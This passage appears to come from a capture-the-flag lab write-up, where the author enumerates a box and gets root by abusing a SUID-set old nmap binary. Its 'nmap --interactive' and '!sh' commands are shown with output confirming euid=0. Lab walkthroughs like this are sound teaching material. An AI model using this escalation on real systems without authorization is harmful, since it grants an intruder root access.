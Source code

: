 ```console
robot@linux:~$ nmap localhost
nmap localhost

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2016-10-01 04:54 UTC
Interesting ports on localhost (127.0.0.1):
(The 1659 ports scanned but not shown below are in state: closed)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql

Nmap finished: 1 IP address (1 host up) scanned in 0.127 seconds

```

Well we see that FTP is open, and so is MySQL... but without a user name or password, and database name for MySQL... it's useless.

One folder seems interesting to me, the __root__ folder... let's see if I can access it!

```console
robot@linux:/$ cd /root
cd /root
bash: cd: /root: Permission denied
```

Crap... looks like I have to do some [privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation) to be able to access that. I spent some time looking for exploits to escalate my privileges... until it hit me!

The host has nmap installed, which could possibly allow me to run commands as root, due to the way [SUID](http://www.linuxnix.com/suid-set-suid-linuxunix/) flags might be set.

Let's check the nmap version first!

```console
robot@linux:/$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Awesome! The host in running an old version of nmap, which supports an option called “interactive.” With this option, users are able to execute shell commands by using an nmap “shell”.

```console
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
```
